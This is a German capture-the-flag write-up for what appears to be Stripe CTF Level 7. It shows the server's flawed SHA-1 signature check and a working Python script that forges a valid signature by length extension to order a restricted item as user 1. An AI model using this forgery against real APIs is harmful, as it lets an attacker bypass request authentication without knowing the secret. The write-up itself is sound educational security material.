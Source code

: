 LEVEL 07
========

SHA1 length extension attack

[http://www.vnsecurity.net/t/length-extension-attack/](http://www.vnsecurity.net/t/length-extension-attack/)

---

Bei Level 7 handelt es sich um einen SHA 1 Length Extension Attack.
    def verify_signature(user_id, sig, raw_params):
        # get secret token for user_id
        try:
            row = g.db.select_one('users', {'id': user_id})
        except db.NotFound:
            raise BadSignature('no such user_id')
        secret = str(row['secret'])

        h = hashlib.sha1()
        h.update(secret + raw_params)
        print 'computed signature', h.hexdigest(), 'for body', repr(raw_params)
        if h.hexdigest() != sig:
            raise BadSignature('signature does not match')
        return True

Es wird also eine Anfrage an den wafflecopter gesendet, dessen Signatur mit hashlib.sha1(api\_secret + params).hexdigest() generiert wird. Serverseitig muss diese Signatur mit hashlib.sha1(hinterlegtes_secret + params).hexdigest() übereinstimmen. Wichtig ist auch, dass wir die Logs von jedem Nutzer einsehen können - auch von User 1, der Zugang zu der begehrten _Liege-Waffle_ hat. Daraus können wir sehen, welche Anfrage bereits von dem User gemacht wurde und welche Signatur dabei generiert wurde - das Secret bleibt unbekannt. Wie auf [VNSECURITY](http://www.vnsecurity.net/t/length-extension-attack/" target="_blank) beschrieben kann hier ein SHA1 Length Extension Attack angewendet werden, der es erlaubt die übertragenen Parameter zu verändern und eine neue valide Signatur zu generieren, ohne den Secret zu kennen. Wie und warum und was und überhaupt kann der interessierte Leser hier sehen: [Flickr's API Signature Forgery Vulnerability](http://netifera.com/research/flickr_api_signature_forgery.pdf). Nutzen wir einfach das Script und schon lässt uns der Server eine begehrte _Liege-Waffle_ haben!

    #!/usr/bin/env python
    #
    # sha1 padding/length extension attack
    # by rd@vnsecurity.net
    #

    import sys
    import base64
    import requests
    from shaext import shaext

    key = 'GHBD30wBR5DvjK'
    keylen = len(key)
    orig_msg = 'count=2&lat=37.351&user_id=1&long=-119.827&waffle=chicken' #< original message
    orig_sig = '38ee18cd57e1ca3ba2c624b876afe9ea41a8b45c'   #< original hash
    add_msg = '&waffle=liege'

    ext = shaext(orig_msg, keylen, orig_sig)
    ext.add(add_msg)

    (new_msg, new_sig) = ext.final()

    body = "%s|sig:%s" % (new_msg, new_sig)
    print "\nBODY: %s" % body
    resp = requests.post('https://level07-2.stripe-ctf.com/user-xxxxxxxxx/orders', data=body)
    #resp = requests.post('http://localhost:9233/orders', data=body)
    print resp.text